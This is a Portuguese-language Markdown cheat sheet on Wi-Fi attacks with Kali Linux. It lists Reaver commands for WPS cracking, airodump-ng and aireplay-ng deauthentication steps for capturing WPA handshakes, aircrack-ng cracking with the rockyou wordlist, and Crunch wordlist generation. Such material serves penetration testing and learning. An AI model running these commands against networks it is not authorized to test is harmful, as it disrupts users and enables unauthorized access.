 # Wifi Hacking -- Kali Linux
### (by Walysson dos Reis)
---------------------
### WPS Cracking com Reaver
* `airmon-ng check kill` - Interrompe processos que estejam utilizando a interface wifi.
* `airmon-ng start wlan0` - Coloca a interface wlan0 em modo de monitoramento.
* `wash -i wlan0mon` - Ativa a descoberta WPS de redes disponiveis na interface wlan0mon.
* `reaver -i wlan0mon -c 1 -b 00:00:00:00:00:00 -vv` - Inicia o ataque Reaver.
* `reaver -i wlan0mon -c 1 -b 00:00:00:00:00:00  -vv -L -N -d 15 -T .5 -r 3:15` - Inicia o ataque Reaver com parâmetros de intervalos opcionais.

### Hacking Wifi WPA-PSK com Aircrack
* `airmon-ng check kill` - Interrompe processos que estejam utilizando a interface wifi.
* `airmon-ng start wlan0` - Coloca a interface wlan0 em modo de monitoramento.
* `airodump-ng wlan0mon` - Ativa a descoberta de redes disponiveis na interface wlan0mon.
* `wash -i wlan0mon` - Ativa a descoberta WPS de redes disponiveis na interface wlan0mon.
* `airodump-ng --bssid 00:00:00:00:00:00 -c 1 --write ArqCAP wlan0mon` - Inicia o modo de captura de pacotes do equipamento de rede alvo.
* `aireplay-ng --deauth 100 -a 00:00:00:00:00:00 wlan0mon` - Executado em terminal paralelo, força a desconexão dos dispositivos da rede alvo.
* Havendo sucesso na captura do pacote de autenticação, no terminal que executa o monitoramento aparecerá a seguinte mensagem: 'WPA handshake'.
* Em posse do pacote capturado com a senha criptografada, devemos quebrar a senha utilizando Wordlists.
* /usr/share/wordlists/rockyou.txt.gz - Wordlist padrão do Kali Linux.
* `gzip -d rockyou.txt.gz` - Descompacta o arquivo rockyou.txt.gz deletando o arquivo zipado.
* `aircrack-ng ArqCap-01.cap -w rockyou.txt` - Inicia o processo de teste de senha utilizando o arquivo de wordlist especificado.
* `grep -E '^.{8,63}$' < rockyou.txt >> rockyou_wpa_passwd.txt` -  Filtra o arquivo rockyou.txt gerando um novo arquivo que contenha apenas senhas no padrão WPA/WPA2 (8-63 caracteres).

#### Crunch : Gerador de Wordlist
* `crunch <min> <max> [opções] ` - Uso padrão do Crunch.
*  lowUP123@%# (Minúsculas,maiúsculas,números e símbolos) - Ordem de Charset no Crunch.
* Parâmetros do Crunch:
    * -b : Tamanho máximo da lista de palavras (requer -o START).
    * -c : Número de linhas para escrever na lista de palavras (requer -o START).
    * -d : Limita o número de caracteres duplicados.
    * -e : Interrompe a geração de palavras em uma determinado string.
    * -f : Especifica uma lista de conjuntos de caracteres do arquivo charset.lst.
    * -i : Inverte a ordem dos caracteres na lista de palavras.
    * -l : Permite a interpretação literal de @,% ^ ao usar -t.
    * -o : O arquivo de lista de saída.
    * -p : Imprime permutações sem repetir caracteres (não pode ser usado com -s).
    * -q : Como a opção -p, exceto a leitura das sequências de um arquivo especificado.
    * -r : Retoma uma sessão anterior (não pode ser usada com -s).
    * -s : Especifique uma string para iniciar a lista de palavras.
    * -t : Define um padrão específico de @,% ^.
    * -z : Comprime o arquivo da lista de saída, acompanhado de -o.
 * Refêrencia do Crunch:
    * @ : Representa letras minúsculas.
    * , : Representa letras maiúsculas.
    * % : Representa números.
    * ^ : Representa caracteres especiais.
 * Lista Charset: /usr/share/crunch/charset.lst:
    * Conjunto de caracteres disponíveis no arquivo charset.lst:
      * lalpha : Letras minúsculas.
      * ualpha : Letras maiúsculas.
      * lalpha-numeric : Letras minúsculas e números.
      * ualpha-numeric : Letras maiúsculas e números.
      * lalpha-numeric-all-space : Letras minúsculas, números e caracteres especiais.
      * ualpha-numeric-all-space : Letras maiúsculas, números e caracteres especiais.
      * mixalpha : Letras minúsculas e maiúsculas.
      * mixalpha-numeric-all-space : Letras maiúsculas, minúsculas, números, caracteres especiais e espaço. 

* `crunch 4 6 1234567890 -o MinhaWordlist01.txt` - Exemplo: Gera lista numérica com palavras de 4 a 6 caracteres e armazena resultado. 
* `crunch 9 9 1234567890 -t palavra@@@@ -o MinhaWordlist02.txt` - Exemplo: Gera lista com parte da palavra fixa de 9 caracteres e variação numérica, armazenando resultado.
* `crunch 4 8 -f charset.lst mixalpha -o MinhaWordlist03.txt` - Exemplo: Gera lista com palavras de 4 a 8 caracteres utilizando charset de letras minusculas e maiusculas e armazena resultado.
* `crunch 8 8 -f charset.lst mixalpha-numeric-all-space -t @@abc@@@ -o MinhaWordlist04.txt` - Exemplo: Gera lista com palavra de tamanho 8 combinando variáveis charset e palavras fixas armazenando resultado. 
* `crunch 4 4 -f charset.lst mixalpha-numeric-all-space -o MinhaWordlist05.txt` - Exemplo: Gera lista com palavra de tamanho 4 utilizando todos os caracteres possíveis do charset e armazena resultado.
* `crunch 8 8 abcdefghijklmnopqrstuvxz 1234567890 | aircrack --bssid 00:00:00:00:00:00 -w- ArqCap-01.cap` - Exemplo: Gera lista com palavra de tamanho 8 que contenha letras letras e números especificados passando diretamente para o software aircrack; não armazena resultado. 
--------
## Referências
https://outpost24.com/blog/wps-cracking-with-reaver  
https://cienciacomputacao.com.br/tutorial/como-hackear-wi-fi-wpa2-psk-com-kali-linux/  
https://www.cyberpratibha.com/blog/how-do-i-use-rockyou-wordlist-txt-in-kali-linux/  
https://deadpackets.wordpress.com/2012/11/11/wireless-fun-crackeando-wpawpa2/
https://nsworld.com.br/crunch-gerador-de-wordlist/  
https://nsworld.com.br/aircrack-ng-pacote-de-ferramentas-para-monitorizar-e-analisar-redes-sem-fio/
https://nsworld.com.br/cracking-wpa-com-aircrack-ng/  
https://www.thinklinux.com.br/?p=130  



